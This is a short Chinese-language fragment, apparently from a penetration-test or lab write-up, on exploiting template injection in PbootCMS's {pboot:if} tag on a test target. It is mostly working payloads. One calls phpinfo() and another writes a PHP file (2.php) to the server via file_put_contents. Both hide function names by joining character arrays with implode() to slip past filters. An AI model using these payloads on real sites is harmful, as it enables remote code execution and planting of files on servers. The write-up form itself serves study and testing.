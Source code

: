 <img src=".\图片\Snipaste_2023-05-11_13-11-19.png" alt="Snipaste_2023-05-11_13-11-19" style="zoom:67%;" />

本地测试环境可以成功执行，但是实际靶机环境里无法执行， `system()` 这个函数被禁用了

### 接着测试

1、成功执行 phpinfo() ：

```
{pboot:if(implode('', ['c','a','l','l','_','u','s','e','r','_','f','u','n','c'])(implode('',['p','h','p','i','n','f','o'])))}!!!{/pboot:if}
```

2、执行payload后，点击主页触发执行 `http://www.cf1.com/` ，发现写入了文件：2.php

```
{pboot:if(implode('',['f','i','l','e','_','p','u'.'t','_c','o','n','t','e','n','t','s'])(implode('',['2','.php']),implode('',['<?php php','info() ?>'])))}!!!{/pboot:if}
```
